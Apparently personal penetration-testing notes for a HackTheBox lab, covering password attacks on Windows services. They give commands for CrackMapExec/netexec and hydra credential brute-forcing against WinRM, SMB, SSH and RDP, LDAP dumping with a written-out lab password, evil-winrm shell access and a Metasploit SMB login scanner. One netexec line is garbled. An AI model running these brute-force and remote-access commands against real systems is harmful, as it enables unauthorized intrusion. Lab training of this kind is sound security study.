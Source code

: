 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[Pentest/Enumeration/services/SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec

```shell
sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```

#### SMB enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares
```

#### LDAP
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```

#### Evil-WinRM
#shell [[bind shell]]
to log in and get the shell:
```
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```


[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

##### SMB via metasploit
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```